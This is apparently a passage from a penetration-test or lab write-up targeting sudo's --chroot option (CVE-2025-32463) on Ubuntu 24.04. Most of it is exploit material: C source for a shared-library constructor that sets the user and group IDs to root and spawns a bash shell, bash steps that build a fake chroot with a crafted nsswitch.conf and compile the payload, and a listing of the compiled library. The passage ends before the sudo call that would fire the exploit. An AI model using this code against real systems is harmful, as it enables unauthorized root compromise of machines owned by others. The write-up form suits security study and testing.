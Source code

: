 
### 5.2 Vulnerability Research

**Research Target:** Ubuntu 24.04.3 LTS with sudo 1.9.16p2

**Vulnerability Identified:** CVE-2025-32463

**CVE Details:**
- **Affected Versions:** sudo 1.9.14 through 1.9.17p1
- **Vulnerability Type:** Improper path validation in --chroot option
- **Impact:** Local privilege escalation to root
- **CVSS Score:** 9.3 (Critical)
- **Public Exploit:** Available

---

### 5.3 Exploit Development

**Exploit Location:** /tmp/exploit_workspace

**Malicious C Code (exploit.c):**
```c
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void escalate(void) {
    setreuid(0,0);
    setregid(0,0);
    chdir("/");
    system("/bin/bash");
}
```

**Exploitation Steps:**

```bash
# Create exploit workspace
mkdir -p /tmp/exploit_workspace
cd /tmp/exploit_workspace

# Create directory structure mimicking chroot environment
mkdir -p chroot_env/etc libnss_custom

# Create malicious nsswitch.conf pointing to our library
echo "passwd: /exploit" > chroot_env/etc/nsswitch.conf

# Copy legitimate group file to appear normal
cp /etc/group chroot_env/etc/

# Compile malicious shared library
gcc -shared -fPIC -Wl,-init,escalate \
  -o libnss_custom/exploit.so.2 exploit.c
```

**Compilation Success:**
```bash
admin_vault@vault:/tmp/exploit_workspace$ ls -la libnss_custom/
total 16
drwxr-xr-x 2 admin_vault admin_vault 4096 Oct 17 10:15 .
drwxr-xr-x 4 admin_vault admin_vault 4096 Oct 17 10:15 ..
-rwxr-xr-x 1 admin_vault admin_vault 8192 Oct 17 10:15 exploit.so.2
```

---